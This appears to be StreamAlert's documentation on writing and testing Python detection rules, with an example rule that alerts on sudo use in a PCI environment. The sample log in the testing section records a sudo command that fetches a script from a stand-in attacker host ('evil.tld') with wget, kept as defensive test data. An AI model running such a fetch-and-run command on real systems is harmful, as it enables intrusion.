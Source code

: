 Rules
=====

* Rules encompass data analysis and alerting logic
* Rules are written in native Python, not a proprietary language
* A Rule can utilize any Python function or library
* A Rule can be run against multiple log sources if desired
* Rules can be isolated into defined environments/clusters
* Rule alerts can be sent to one or more outputs, like S3, PagerDuty or Slack
* Rules can be unit tested and integration tested

Getting Started
---------------

* Rules are located in the ``rules/`` sub-directory.
* We suggest a separate rule file is created for each cluster defined in the ``variables.json`` file.
* Examples: ``corp.py``, ``pci.py``, or ``production.py``
* This structure is optional, you can organize rules however you like.

All rule files must be explicitly imported in ``main.py``.

Example::

  from rules import (
      corp,
      pci,
      production
  )

.. note:: If you skip the step above, your rules will not be used by StreamAlert.

Overview
--------

Each Rule file must contain the following at the top::

  from stream_alert import rule_helpers
  from stream_alert.rules_engine import StreamRules
  rule = StreamRules.rule

All rules take this structure::

    @rule('example',
          logs=[...],
          matchers=[...],
          outputs=[...])
    def example(record):
        # code                    # analyze the incoming record w/ your logic
        return True               # return True if an alert should be sent

You define a list of ``logs`` that the rule is applicable to.  Rules will only be evaluated against incoming records that match the declared log types.

Example
-------

Here’s an example that alerts on the use of sudo in a PCI environment::

    from fnmatch import fnmatch

    @rule('production_sudo',                          # name of the rule
          logs=['osquery'],                           # applicable datasource(s)
          matchers=['pci'],                           # matcher(s) to evaluate
          outputs=['s3', 'pagerduty', 'slack'])       # where to send alerts
    def production_sudo(record):                      # incoming record/log
        table_name = record['name']
        tag = record['columns']['tag']
        return (
          table_name == 'linux_syslog_auth' and
          fnmatch(tag, 'sudo*')
        )

You have the flexibility to perform simple or complex data analysis

Parameter Details
-----------------

logs
~~~~~~~~~~~

``logs`` define the log sources the rule supports; the ``def`` function block is not run unless this condition is satisfied.

* A rule can be run against multiple log sources if desired.
* Log sources (e.g. datasources) are defined in ``conf/sources.json`` and subsequent schemas are defined in ``conf/logs.json``. For more details on how to setup a datasource, please see the Datasources section.

matchers
~~~~~~~~

``matchers`` is optional; it defines conditions that must be satisfied in order for the rule to be evaluated.  This serves two purposes:

* To extract common logic from rules, which improves readability and writability
* To ensure necessary conditions are met before full analysis of an incoming record

Matchers are defined in ``rules/matchers.py``. If desired, matchers can also be defined in rule files if the following line is added to the top::

  matcher = StreamRules.matcher

In the above example, we are evaluating the ``pci`` matcher.  As you can likely deduce, this ensures alerts are only triggered if the incoming record is from the ``pci`` environment. This is achieved by looking for a particular field in the log. The code::

    @matcher('pci')
    def is_prod_env(record):
        return record['decorations']['envIdentifier'] == 'pci'


outputs
~~~~~~~

``outputs`` define where the alert should be sent to, if the return value of the rule is ``True``.

StreamAlert supports sending alerts to PagerDuty, Slack and Amazon S3. As demonstrated in the example, an alert can be sent to multiple destinations.

req_subkeys
~~~~~~~~~~~

``req_subkeys`` is optional; it defines the required sub-keys that must exist in the incoming record in order for the rule to be evaluated.

This feature should be avoided, but it is useful if you defined a loose schema to trade flexibility for safety; see `Schemas <conf-schemas.html#json-example-osquery>`_.

Examples::

  @rule('osquery_etc_hosts',
        logs=['osquery'],
        outputs=['pagerduty', 's3'],
        req_subkeys={'columns':['address', 'hostnames']})
        ...

  @rule('osquery_listening_ports',
        logs=['osquery'],
        outputs=['pagerduty', 's3'],
        req_subkeys={'columns':['port', 'protocol']})
        ...


Helpers
-------
To improve readability and writability of rules, you can extract commonly used ``Python`` processing logic into custom helper methods.   These helpers are defined in ``stream_alert/rule_helpers.py`` and can be called from within a matcher or rule.

Example function::

    def in_set(data, whitelist):
        """Checks if some data exists in any elements of a whitelist.

        Args:
            data: element in list
            whitelist: list/set to search in

        Returns:
            True/False
        """
        return any(fnmatch(data, x) for x in whitelist)

Example use of that function within a rule::

    @rule('foobar', ...)
    def foobar(record):
        user = 'joe'
        user_whitelist = { 'mike', 'jin', 'jack', 'mary' }

        return in_set(user, user_whitelist)


Rules Testing
-------------

In order to test the effectiveness of our new rules, you can run a set of local integration tests to verify alerts would be triggered.  The `stream_alert_cli.py` command line tool comes built-in with a `lambda test` command.

Configuration
~~~~~~~~~~~~~

To get started, create (or find) an example log for your given rule.  If the rule you added expects incoming records to be JSON, add a raw JSON record into the ``trigger_events.json`` file for the related stream.

Example logs will be stored in the ``test/integration/fixtures/kinesis`` subdirectory.  A new folder should be created for each Kinesis stream as declared in your `sources.json <conf-datasources.html>`_.

Within each of these folders, add the following two files:

* ``trigger_events.json``
* ``non_trigger_events.json``

These files allow you to separate true positives from false positives.

Recall our earlier example that alerts on the use of ``sudo`` in the ``pci`` environment. In ``trigger_events.json``, you would add an example log that should alert::

  {
    "name": "linux_syslog_auth",
    "hostIdentifier": "foobar",
    "unixTime": "1470824034",
    "decorations": {
      "envIdentifier": "pci",
      "roleIdentifier": "memcache"
    },
    "columns": {
      "tag": "sudo",
      "message": "john_adams : TTY=pts/0 ; PWD=/home/john_adams ; USER=root ; COMMAND=/usr/bin/wget http://evil.tld/x.sh",
      "facility": "authpriv"
    },
    "action": "added"
  }

.. warning:: One event per line. This log was put on multiple lines for readability and education purposes.

And lastly, in ``non_trigger_events.json``, you would add an example that shouldn't fire.

Running Tests
~~~~~~~~~~~~~

To test an example record coming from Kinesis::

  ./stream_alert_cli.py lambda test --func alert --source kinesis

To test example records from S3::

  ./stream_alert_cli.py lambda test --func alert --source s3

.. note:: coming soon - Amazon S3 testing instructions
